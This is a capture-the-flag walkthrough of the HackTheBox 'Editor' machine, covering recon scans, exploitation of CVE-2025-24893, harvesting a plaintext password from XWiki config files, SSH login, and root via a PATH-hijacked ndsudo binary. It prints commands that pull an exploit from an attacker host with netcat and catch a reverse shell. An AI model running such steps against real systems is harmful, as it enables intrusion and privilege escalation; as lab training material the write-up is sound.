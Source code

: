# Editor - HackTheBox 

## 1. Reconnaissance

## 1.1 Nmap scan

Performed to identify open ports, services, versions, and operating system:

```bash
nmap -A -T4 10.10.11.80 -oN portscan.txt
```
## 1.2 Nuclei scan for vulnerabilities

Performed to identify known vulnerabilities in the machine's HTTP service:

```bash
nuclei -u http://wiki.editor.htb -o nuclei.txt
```

* The scan identified the vulnerability CVE-2025-24893 (details looked up on Exploit-DB)

---

## 2. Exploitation

### 2.1 Exploit adjustment

Based on the exploit found at [Exploit-DB #52136](https://www.exploit-db.com/exploits/52136), it was necessary to modify the HTTPS address to work correctly against the target.

### 2.2 Interactive shell access

Python interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 3. Enumeration

### 3.1 User directories

Listing the `/home` directory to discover system users:

```bash
ls /home
```

Output:

```
oliver
```

### 3.2 Searching for passwords in configuration files

Searched for possible passwords inside the `/etc/xwiki` directory:

```bash
grep -iR "pass" /etc/xwiki/*
```

Found the password:

```
theEd1t0rTeam99
```

---

## 4. SSH access

With the discovered user and obtained password, it was possible to connect via SSH:

```bash
ssh -4 oliver@editor.htb
```

* `-4`: force IPv4 connection
* User: `oliver`
* Password: `theEd1t0rTeam99`

## 5. Privilege Escalation

### 5.1 Compiling the exploit

On your local machine, compile the exploit statically to avoid library dependencies on the target:

```bash
x86_64-linux-gnu-gcc -o nvme exploit.c -static
```

### 5.2 Transfer the exploit to the target

Use `nc` (netcat) to send the compiled binary to the target machine:

On your **local machine** (sending the file):

```bash
nc -lvnp 4444 < nvme
```

On the **target machine** (receiving the file):

```bash
nc 10.10.14.8 4444 > nvme
chmod +x nvme
```

### 5.3 Execute the exploit with appropriate permissions

Run the exploit by adding the current directory to the `PATH` and using `ndsudo` to escalate privileges:

```bash
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

### 5.4 Listen on the reverse shell port

Meanwhile, on your **local machine**, listen for a reverse shell on port `9001` (or the port specified by the exploit):

```bash
nc -lvnp 9001
```
And now you have the root flag.

